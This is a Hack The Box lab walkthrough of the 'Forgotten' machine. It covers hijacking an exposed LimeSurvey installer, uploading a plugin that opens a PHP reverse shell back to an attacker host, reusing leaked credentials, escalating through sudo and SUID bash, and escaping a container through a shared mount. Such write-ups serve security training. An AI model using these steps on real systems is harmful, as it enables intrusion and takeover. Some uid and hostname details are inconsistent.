


# Hack The Box - Forgotten

Welcome to my writeup on Forgotten, an easy Linux machine that chains together a misconfigured LimeSurvey installation, plugin-based remote code execution, and a container escape path that ultimately leads to root on the host. I wrote this walkthrough to document the logic behind each step and to keep the flow readable while still preserving the practical details that made the box solvable.

Forgotten is a good example of how several small security mistakes can combine into a full compromise. The web server exposes a hidden LimeSurvey installation wizard, the application allows administrative plugin uploads, credentials are left in the environment, and sudo is configured too loosely on the system. In the end, what looks like a simple web foothold becomes a full host takeover.

## Enumeration

I started by checking what services were exposed on the target. The web server was reachable, but the root path did not give me a normal homepage.

```bash
┌──(kali㉿kali)-[~]
└─$ nmap -sC -sV -A 10.129.108.231
Starting Nmap 7.94SVN ( https://nmap.org ) at 2026-04-06 04:31 CDT
Nmap scan report for 10.129.108.231
Host is up (0.58s latency).
Not shown: 997 closed tcp ports (reset)

PORT   STATE SERVICE VERSION
21/tcp open  ftp     vsftpd 3.0.3
22/tcp open  ssh     OpenSSH 8.2p1 Ubuntu 4ubuntu0.2 (Ubuntu Linux; protocol 2.0)
80/tcp open  http    gunicorn
|_http-title: Security Dashboard
|_http-server-header: gunicorn

Service Info: OS: Linux
```

The scan showed three open ports: FTP, SSH, and HTTP. The HTTP service looked like a security dashboard, so I moved to browser enumeration and content discovery.

The web root returned a `403 Forbidden`, which usually means the server is running but the default directory is blocked or has no index file. Since the homepage was locked down, I used directory fuzzing to look for hidden paths.

```bash
┌──(kali㉿kali)-[~]
└─$ ffuf -u http://10.129.108.231/FUZZ -w /usr/share/wordlists/seclists/Discovery/Web-Content/raft-large-words.txt
```

The interesting result was `/survey`, which returned a redirect instead of a hard block.

```text
.html                   [Status: 403, Size: 279, Words: 20, Lines: 10]
.htm                    [Status: 403, Size: 279, Words: 20, Lines: 10]
survey                  [Status: 301, Size: 317, Words: 20, Lines: 10]
.                       [Status: 403, Size: 279, Words: 20, Lines: 10]
.htaccess               [Status: 403, Size: 279, Words: 20, Lines: 10]
.htc                    [Status: 403, Size: 279, Words: 20, Lines: 10]
.html_var_DE            [Status: 403, Size: 279, Words: 20, Lines: 10]
```

The `301` response for `/survey` was promising because it suggested a real application path rather than just a blocked directory.



### Web Access

Visiting `/survey` revealed an unfinished LimeSurvey installation wizard. That immediately changed the direction of the machine, because exposed installer pages are often a sign of incomplete setup or poor hardening.

The installer was not just informational — it was interactive. That meant I might be able to complete the installation myself and control the application setup.

Instead of trying to guess credentials already on the box, I decided to supply LimeSurvey with my own database backend. The plan was to let the installer connect to a MariaDB instance I controlled, then use the wizard to finish installation and create an admin account.

### Attacker-Controlled Database

I started a MariaDB server on my own machine and created a database for LimeSurvey.

```sql
MariaDB [(none)]> create database pwn;
Query OK, 1 row affected (0.001 sec)
```

Next I created a user that the target could connect with remotely.

```sql
MariaDB [(none)]> create user 'hacker'@'%' identified by 'hacker';
Query OK, 0 rows affected (0.009 sec)
```

Then I granted that user full access to the database.

```sql
MariaDB [(none)]> grant all privileges on pwn.* to 'hacker'@'%';
Query OK, 0 rows affected (0.004 sec)
```

Finally I flushed the privileges so the changes would apply immediately.

```sql
MariaDB [(none)]> flush privileges;
Query OK, 0 rows affected (0.001 sec)
```

By default MariaDB only listens on localhost, so I updated the configuration to bind on all interfaces.

```bash
cat /etc/mysql/my.cnf
```

```ini
[client-server]
socket = /run/mysqld/mysqld.sock

!includedir /etc/mysql/conf.d/
!includedir /etc/mysql/mariadb.conf.d/

[mysqld]
bind-address = 0.0.0.0
```

After restarting MariaDB, the database was ready to accept a connection from the target.

### Completing Installation

Back in the LimeSurvey installer, I entered the database IP, database name, username, and password. The installation completed successfully, created the required tables, and then asked me to create an administrator account.



That was the key moment. Once the setup finished, I had valid admin credentials for LimeSurvey and could log into the backend like a normal administrator.

## Initial Access

### Plugin Upload to RCE

With admin access in hand, I looked for a way to turn application control into code execution. The plugin manager was the obvious target, since LimeSurvey allows plugins to be uploaded and installed by administrators.

I cloned the public plugin RCE proof of concept: https://github.com/TheRedP4nther/limesurvey-6.6.4-authenticated-rce and adapted it for this machine. The plugin needed to look legitimate enough to pass validation, so I updated the metadata and compatibility fields in `config.xml`.

```xml
<?xml version="1.0" encoding="UTF-8"?>
<config>
    <metadata>
        <name>bsec</name>
        <type>plugin</type>
        <creationDate>2020-03-20</creationDate>
        <lastUpdate>2020-03-31</lastUpdate>
        <author>bsec</author>
        <authorUrl>https://github.com/Y1LD1R1M-1337</authorUrl>
        <supportUrl>https://github.com/Y1LD1R1M-1337</supportUrl>
        <version>6.0</version>
        <license>GNU General Public License version 2 or later</license>
        <description>
<![CDATA[Author : Y1LD1R1M]]></description>
    </metadata>

    <compatibility>
        <version>3.0</version>
        <version>4.0</version>
        <version>5.0</version>
        <version>6.0</version>
    </compatibility>
    <updaters disabled="disabled"></updaters>
</config>
```

Then I edited the reverse shell payload in `revshell.php` so it would call back to my machine.

```php
<?php

set_time_limit (0);
$VERSION = "1.0";
$ip = 'Attacker-IP';
$port = 2121;
$chunk_size = 1400;
$write_a = null;
$error_a = null;
$shell = 'uname -a; w; id; /bin/sh -i';
```

The next step was to upload the plugin through the admin panel and then trigger it by browsing directly to the uploaded PHP file.

Before firing it, I set up a listener:

```bash
nc -lvnp 1234
listening on [any] 1234 ...
```

Then I triggered the payload:

```bash
curl http://Target-IP/survey/upload/plugins/bsec/revshell.php
```

The connection came back immediately:

```text
connect to [10.10.14.224] from (UNKNOWN) [10.129.108.231] 41244
Linux efaa6f5097ed 6.8.0-1033-aws #35~22.04.1-Ubuntu SMP Wed Jul 23 17:51:00 UTC 2025 x86_64 GNU/Linux
 11:45:35 up  1:17,  0 users,  load average: 0.03, 0.04, 0.00
USER     TTY      FROM             LOGIN@   IDLE   JCPU   PCPU WHAT
uid=2000(limesvc) gid=2000(limesvc) groups=2000(limesvc),27(sudo)
/bin/sh: 0: can't access tty; job control turned off
$
```

That gave me a shell as `limesvc`. The hostname looked like a Docker container identifier, which strongly suggested the application was running inside a container rather than directly on the host.

### Shell Stabilization

The initial shell was limited, so I upgraded it with `script` to make it easier to work with.

```bash
/usr/bin/script -qc /bin/bash /dev/null
```

That gave me a much better interactive shell for enumeration.

### Credentials Discovery

Once I had shell access, I checked the environment variables for anything useful. This is a common place where applications accidentally leak credentials.

```bash
env
```

Among the environment variables, I found a clear-text password.

```text
limesvc
5W5HN4K4GCXf9E
```

That was important because it gave me something I could test outside the container.

### SSH Access

I tried the same credentials over SSH, and they worked.

```bash
┌──(kali㉿kali)-[~]
└─$ ssh limesvc@10.129.108.231
The authenticity of host '10.129.108.231 (10.129.108.231)' can't be established.
ED25519 key fingerprint is SHA256:Dgu3MKOg2XUbjInyeAgQbBsHXIBePlc4jLIgssUKTt0.
This key is not known by any other names.
Are you sure you want to continue connecting (yes/no/[fingerprint])? yes
Warning: Permanently added '10.129.108.231' (ED25519) to the list of known hosts.
(limesvc@10.129.108.231) Password:
```

After login, I landed on the host, which confirmed that the SSH service was running outside the container.

```text
limesvc@forgotten:~$
```

At this point, I had a host shell and could focus on privilege escalation.

## Privilege Escalation

I started by checking sudo permissions.

```bash
echo 5W5HN4K4GCXf9E | sudo -S -l
```

The output showed that `limesvc` could run any command with sudo.

```text
Matching Defaults entries for limesvc on efaa6f5097ed:
    env_reset, mail_badpass, secure_path=/usr/local/sbin:/usr/local/bin:/usr/sbin:/usr/bin:/sbin:/bin

User limesvc may run the following commands on efaa6f5097ed:
    (ALL : ALL) ALL
```

That means the account was effectively unrestricted. With that level of access, I used sudo to give `/bin/bash` the SUID bit.

```bash
echo 5W5HN4K4GCXf9E | sudo -S chmod +s /bin/bash
```

Then I launched bash with privilege preservation enabled.

```bash
/bin/bash -p
```

Checking my identity confirmed root-level effective privileges.

```bash
id
uid=2000(limesvc) gid=2000(limesvc) euid=0(root) egid=0(root) groups=0(root),27(sudo),2000(limesvc)
```

That completed the escalation path and gave me root access inside the container environment.

## Container Escape via Shared Mount Points

Root access inside the container was helpful, but the real objective was to break out of the container and reach the host itself. Containers are meant to isolate processes, but a poorly configured shared mount can weaken that isolation and create an escape path.

To look for this kind of issue, I ran a Linux enumeration check and reviewed the mounted filesystems. One entry immediately stood out:

```text
/dev/root on /etc/resolv.conf type ext4 (rw,relatime,discard,errors=remount-ro)
/dev/root on /etc/hostname type ext4 (rw,relatime,discard,errors=remount-ro)
/dev/root on /etc/hosts type ext4 (rw,relatime,discard,errors=remount-ro)
/dev/root on /var/www/html/survey type ext4 (rw,relatime,discard,errors=remount-ro)
```

The first three mounts are normal Docker bind mounts used for basic system configuration. The fourth one is the important part: `/var/www/html/survey` was mounted directly from the host. That meant changes made in the container would also appear on the host, which is exactly the kind of setup that can be dangerous if an attacker gets root inside the container.

To confirm the mount relationship, I created a test file from the container shell:

```bash
cd /var/www/html/survey
touch test
```

Then I checked for it from my SSH session on the host:

```bash
find / -type f -name test 2>/dev/null
```

The file showed up on the host as expected:

```text
/usr/bin/test
/snap/core20/2599/usr/bin/test
/snap/core20/2015/usr/bin/test
/snap/core22/2045/usr/bin/test
/snap/core18/2934/usr/bin/test
/snap/core18/2855/usr/bin/test
/opt/limesurvey/test
```
### Becoming Root (Host itSelf)

That confirmed the container path mapped to `/opt/limesurvey/` on the host. I also checked the ownership:

```bash
ls -la /opt/limesurvey/test
```

```text
-rw-rw-rw-   1 root    root          0 Sep 22 12:23 test
```

Since I created the file as root in the container, it remained owned by root when it appeared on the host. That was the key detail that made the escape possible.

From the root shell inside the container, I copied bash into the shared directory and applied the SUID bit:

```bash
cp /bin/bash /var/www/html/survey/bash
chmod +s /var/www/html/survey/bash
```

Once that binary appeared on the host side, I could run it from my SSH session as the unprivileged `limesvc` user:

```bash
cd /opt/limesurvey
./bash -p
```

That gave me a root shell on the host:

```text
bash-5.1# id
uid=1000(limesvc) gid=1000(limesvc) euid=0(root) egid=0(root) groups=0(root),1000(limesvc)
```

With that, the container escape was complete and I had full control over the host system.


## Attack Path

- **Scan the host** - with Nmap to identify HTTP, SSH, and FTP.
- **Fuzz the web server** - and discover the `/survey` path.
- **Find the exposed LimeSurvey installer** - and use it to complete setup.
- **Point the installer to an attacker-controlled MariaDB server**.
- **Create an admin account** - through the installation wizard.
- **Upload a malicious plugin** - to gain remote code execution.
- **Catch a reverse shell** - as `limesvc` inside the container.
- **Read environment variables** - and recover plaintext credentials.
- **Reuse those credentials over SSH** - to reach the host.
- **Use unrestricted sudo** - to become root.
- **Use the shared mount point** - to escape the container and gain root on the host
